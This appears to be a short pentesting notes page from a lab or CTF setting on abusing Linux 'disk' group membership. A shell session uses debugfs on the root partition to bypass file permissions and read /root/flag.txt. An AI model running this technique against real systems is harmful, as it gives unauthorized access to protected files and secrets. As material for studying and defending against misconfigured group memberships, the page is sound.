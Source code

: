 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Disk

The **`disk`** group in Linux is a **privileged system group** intended to grant **access to** **raw disk devices**, like `/dev/sda`, `/dev/sdb`, etc. It allows users to perform low-level operations on storage devices, such as partitioning, formatting, mounting/unmounting, etc.&#x20;

Membership in the `disk` group is highly sensitive — users with this access can **read or modify any data on the system**, bypassing file permissions entirely.

```bash
# Confirm group membership
ian@DANTE-NIX07:~$ id
uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)

# Identify the root fine system (/)
ian@DANTE-NIX07:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        14G  7.9G  5.2G  61% /

# Open the block service
ian@DANTE-NIX07:~$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
No entry for terminal type "xtrem";
using dumb terminal settings.

# Failed attempt to create a directory
debugfs:  mkdir test
mkdir: Filesystem opened read/only

# Read a root file 
debugfs:  cat /root/flag.txt
```
